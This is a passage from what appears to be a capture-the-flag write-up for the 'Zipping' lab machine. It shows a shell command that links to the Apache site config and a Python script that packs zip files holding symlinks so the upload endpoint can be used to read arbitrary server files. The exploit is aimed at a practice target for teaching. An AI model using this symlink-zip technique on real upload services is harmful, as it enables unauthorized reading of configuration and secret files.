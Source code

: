  ![](../../../../images/2024-01-19-13-42-57.png)

&nbsp;




 So now we need read source code file zipping to code analysis to exploit the vuln . To knows where the path domain read the apache config or nginx config . The website using apache . So i need recreate zip symlink again .

 `ln -s /etc/apache2/sites-available/000-default.conf apache.pdf`

 &nbsp;




 (![](../../../../images/2024-01-19-13-52-32.png)

&nbsp;



 The zipping path is `/var/www/html` and `/var/www/html/shop` lets try get the code . But i so lazy create files one by one to Read the file . So now im using the tools to read the file because its save time 
<a id="item-two"></a>

# Local File Inclusion



 ```
 #!/usr/bin/python3
import stat
import zipfile
import requests
import re
import os

url = "http://zipping.htb:80/upload.php"
base_url = "http://zipping.htb/"


def create_zip_with_symlink(output_zip_filename, link_source, link_target):
    zipInfo = zipfile.ZipInfo(link_source)
    zipInfo.create_system = 3
    unix_st_mode = (
        stat.S_IFLNK
        | stat.S_IRUSR
        | stat.S_IWUSR
        | stat.S_IXUSR
        | stat.S_IRGRP
        | stat.S_IWGRP
        | stat.S_IXGRP
        | stat.S_IROTH
        | stat.S_IWOTH
        | stat.S_IXOTH
    )
    zipInfo.external_attr = unix_st_mode << 16
    zipOut = zipfile.ZipFile(
        output_zip_filename, 'w', compression=zipfile.ZIP_DEFLATED)
    zipOut.writestr(zipInfo, link_target)
    zipOut.close()


while True:
    file = input("filename: ")
    create_zip_with_symlink('link.zip', 'link.pdf', file)
 ```